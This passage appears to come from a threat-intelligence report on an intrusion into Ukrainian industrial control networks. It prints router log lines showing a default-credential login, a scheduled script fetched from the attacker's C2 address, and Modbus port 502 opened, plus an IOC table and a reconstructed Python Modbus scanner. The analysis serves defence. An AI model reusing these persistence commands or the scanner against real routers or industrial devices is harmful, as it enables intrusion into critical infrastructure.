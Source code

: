 #### Technical Evidence
```bash
# Forensic artifact from Mikrotik router logs
# Source: Ukraine CSSC Incident Report UKCS-2024-0122 [[55]](#ref55)
[2023-04-15 02:17:33] 185.174.137.82 - admin login success
[2023-04-15 02:17:45] exec: /system script add name=update source="fetch http://185.174.137.82/mr.rsc"
[2023-04-15 02:17:46] exec: /system scheduler add name=update interval=24h on-event=update
[2023-04-15 02:18:01] firewall rule added: accept tcp any->any:502
```

**Analysis**: The threat actor exploited default credentials on an internet-exposed Mikrotik router, establishing persistent access and creating firewall rules to expose the Modbus port [[56]](#ref56).

#### Indicators of Compromise
| IOC Type | Value | Context | Confidence | Source |
|----------|-------|---------|------------|---------|
| IP Address | 185.174.137.82 | C2 Server | High | [[57]](#ref57) |
| File Path | /tmp/mr.rsc | Persistence script | High | [[58]](#ref58) |
| Port | TCP/502 | Modbus exposure | High | [[59]](#ref59) |

### Phase 2: ICS Network Reconnaissance
**MITRE ATT&CK**: T0846 - Remote System Discovery [[60]](#ref60)

#### Technical Evidence
```python
# Reconstructed reconnaissance script based on forensic analysis
# Source: Dragos IR Report DR-2024-UKR-001 [[61]](#ref61)
import socket
import struct

def modbus_scan(ip_range):
    for ip in ip_range:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(2)
        try:
            s.connect((ip, 502))
            # Modbus function code 0x11 - Report Server ID
            query = struct.pack('>HHHBB', 0x0001, 0x0000, 0x0006, 0x01, 0x11)
            s.send(query)
            response = s.recv(1024)
            if response:
                print(f"Modbus device found: {ip}")
                parse_device_info(response)
        except:
            pass
        s.close()
```
